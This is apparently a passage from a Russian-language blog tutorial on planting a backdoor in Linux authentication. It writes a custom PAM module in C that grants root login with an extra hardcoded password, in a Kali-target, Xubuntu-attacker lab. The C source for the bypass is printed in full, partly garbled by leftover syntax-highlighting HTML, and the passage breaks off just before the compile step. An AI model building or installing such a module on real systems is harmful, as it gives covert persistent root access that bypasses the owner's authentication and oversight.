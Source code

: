 Итак, в роле целевого хоста будет выступать Kali. В роле атакующего- Xubuntu

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/538/f41/dd1/538f41dd181a6fcc928fd038c61de264.png)

Если кратко, то нашей целью является дополнительный самописный модуль проверки пароля.  
Например, мы хотим "добавить" дополнительный пароль для пользователя root. Пусть его оригинальный пароль - 'kali', а добавленный нами - 'bye'.

В таком случае, пользователь root будет иметь уже 2 пароля. Важно отметить, что новый модуль будет проверять только придуманный нами пароль, будто это дополнительное условие проверки в вашем коде.

Итак, приступим.

Поскольку модули написаны на языке С (редко на С++), то после их написания, необходима их компиляция. Соответственно, файлы имеют расширение *.so. Это значит, что нам тоже нужно будет компилировать наш модуль.

Вот как можно посмотреть стандартные решения:  
`ls /usr/lib/x86_64-linux-gnu/security/`

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/375/ddd/845/375ddd845e1c514ba34c0b6cb3ce984b.png)

Для начала, давайте создадим проект и назовем его test.c, затем поместим в него следующий код:

```
#include <stdio.h>#include <string.h>#include <stdlib.h>#include <unistd.h>#include <security/pam_appl.h>#include <security/pam_modules.h>#define MYPASSWD "bye" //change thisPAM_EXTERN int pam_sm_setcred(pam_handle_t pamh, int flags, int argc, const char *argv) {return PAM_SUCCESS;}PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t pamh, int flags, int argc, const char *argv) {return PAM_SUCCESS;}PAM_EXTERN int pam_sm_authenticate(pam_handle_t pamh, int flags,int argc, const char argv) {char password = NULL; <span class="token function">pam_get_authtok</span><span class="token punctuation">(</span>pamh<span class="token punctuation">,</span> PAM_AUTHTOK<span class="token punctuation">,</span> <span class="token punctuation">(</span><span class="token keyword">const</span> <span class="token keyword">char</span> <span class="token operator">*</span><span class="token operator">*</span><span class="token punctuation">)</span><span class="token operator">&amp;</span>password<span class="token punctuation">,</span> <span class="token constant">NULL</span><span class="token punctuation">)</span><span class="token punctuation">;</span><span class="token keyword">if</span> <span class="token punctuation">(</span><span class="token operator">!</span><span class="token function">strncmp</span><span class="token punctuation">(</span>password<span class="token punctuation">,</span> MYPASSWD<span class="token punctuation">,</span> <span class="token function">strlen</span><span class="token punctuation">(</span>MYPASSWD<span class="token punctuation">)</span><span class="token punctuation">)</span><span class="token punctuation">)</span>    <span class="token keyword">return</span> PAM_SUCCESS<span class="token punctuation">;</span><span class="token keyword">return</span> <span class="token operator">-</span><span class="token number">1</span><span class="token punctuation">;</span>}
```

_Не забывайте поменять придуманный пароль в 7 строке :)_

Немножко пробежимся по коду:  
• **pam_sm_authenticate** осуществляет аутентификацию пользователя. Она проверяет предоставленный пользователем пароль и возвращает PAM_SUCCESS в случае успеха.  
• **pam_sm_acct_mgmt** проверяет параметры УЗ пользователя (например, проверка срока действия учетной записи).  
• **pam_sm_setcred** устанавливает удостоверение пользователя (выдача доступа).

Теперь давайте скомпилим наш проект, предварительно установив нужные зависимости и компоненты:
